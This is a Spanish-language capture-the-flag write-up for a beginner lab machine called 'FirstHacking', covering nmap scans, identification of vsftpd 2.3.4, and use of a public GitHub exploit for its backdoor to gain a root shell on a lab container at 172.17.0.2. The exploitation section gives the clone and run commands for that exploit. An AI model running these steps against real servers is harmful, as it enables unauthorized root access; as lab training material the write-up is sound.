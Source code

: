 ```yaml
---
description: >-
  ✍️ Autor: El Pingüino de Mario🔍 Dificultad: Muy Fácil  📅 Fecha de creación:
  01/01/2000
---
```


# FirstHacking

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/0 (2).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

![](<../../.gitbook/assets/1 (2).png>)

> Nota: he pegado una foto que no es de esta máquina. Lo demás está bien.

Como podemos observar durante el escaneo que el **puerto 21** perteneciente al **servicio FTP** está abierto por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Para saber más información sobre el puerto abierto, se realiza el siguiente comando:

```bash
nmap -sCV -p21 172.17.0.2 -oN targeted
```

![](<../../.gitbook/assets/2 (2).png>)

Como se puede observar, la versión del servicio **FTP** nos puede ayudar, ya que podría ser vulnerable. Para verificar esto, realizamos el comando:

```bash
searchsploit vsftpd 2.3.4
```

<figure><img src="../../.gitbook/assets/3 (2).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

En este caso, utilizaremos un exploit que encontramos en GitHub. Seguimos las instrucciones indicadas en la página, lo que nos permite crear una reverse shell con privilegios de usuario **root** en la máquina. Para ello, se realizan los siguientes comandos:

```bash
sudo python3 -m pip install pwntools
git clone https://github.com/Hellsender01/vsftpd_2.3.4_Exploit.git
cd vsftpd_2.3.4_Exploit/
chmod +x exploit.py
```

Para continuar con la fase de explotación, creamos un entorno virtual para ejecutar el exploit con los siguientes comandos:

```bash
python3 -m venv myenv
source myenv/bin/activate
pip install --upgrade pip
pip install pwntools
```

A continuación, ya podemos ejecutar el exploit con:

```bash
python3 exploit.py 172.17.0.2
```

![](<../../.gitbook/assets/4 (2).png>)

### 🔐 **PRIVILEGIOS**

Tras estar dentro de la shell, comprobamos quiénes somos a través de:

```bash
whoami
```

![](<../../.gitbook/assets/5 (2).png>)

Observamos que somos **root** por lo que tenemos el máximo de privilegios.
